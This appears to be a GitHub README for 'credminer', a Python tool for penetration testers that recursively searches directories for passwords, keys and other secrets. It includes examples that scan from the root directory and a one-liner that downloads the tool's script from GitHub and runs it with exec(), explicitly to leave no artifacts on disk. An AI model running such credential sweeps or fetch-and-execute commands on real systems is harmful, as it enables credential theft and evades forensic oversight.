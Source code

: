 # credminer

credminer is a Python recursive string and regex utility. It allows you to recursively search through all files with in a directory and any subdirectories and matches on a string or regex. When a match is found it prints what was matched and the full path of the file it was found in to the screen. By default it will search all filetypes so unless you want to look for secrets in a specific filetype the `-f` can be ommited.

![demo2.gif](https://github.com/3Xploitd/credminer/blob/f2997fe30a9cbfa2f4037df46b5b176c52b1b87a/demo2.gif)

## usage

~~~

usage: credminer.py [-h] (-t TEXT | -r REGEX | -s) -d DIRECTORY [-f FILETYPE] [-a ADDREGEX]

options:
  -h, --help            show this help message and exit
  -t TEXT, --text TEXT  text or to search for
  -r REGEX, --regex REGEX
                        regular expression to match on
  -s, --secrets         Secrets to search for
  -d DIRECTORY, --directory DIRECTORY
                        The directory to search in
  -f FILETYPE, --filetype FILETYPE
                        The file extention to search for
  -a ADDREGEX, --addregex ADDREGEX
                        Adds a regex expression to the secrets file
~~~

      
## Examples

`python3 credminer.py -d / -f txt -t password`
This will search for any files under the root directory that are text files and contain the word password in them.

`python3 credminer.py -d / -f pdf -t password`
This will search for the word password in pdf files under the root directory

`python3 credminer.py -d / -s`
This will load the json regexes file and search for secrets matching each of the regexes on all file types under the root directory

`python3 credminer.py -d / -f txt -r "(pass|password|code|key)"`
This will search for either the word password or passcode in text files that are under the root directory

# invoke_credminer

This is  a modified version of `credminer.py` to allow you to run the script without saving it to disk. The reason being, is depending on your use case such as a Penetration Tester, you may not want the script to be saved on disk to leave definite artifacts behind. By default it runs the `get_secrets` function on the root directory, looking for all filetypes. However, this can be easily changed as there are several variables which have been added to pass the arguments to the script without having to pass them yourself. In a way this functions similarly to `IEX` in PowerShell. By changing the values of `text_search`, `regex_search`, `secret_search`, `filetype_search`, and `search_directory` it will automatically assign the arguments so all that has to be done to run the program on disk is `python3 credminer.py` but to run it without downloading it to disk you can run `python3 -c 'import requests; r = requests.get("https://raw.githubusercontent.com/3Xploitd/credminer/main/invoke_credminer.py").text;exec(r)'`.

![demo.gif](https://github.com/3Xploitd/credminer/blob/c3a23752a1accbaffce095824b158f53de8918ec/demo.gif)
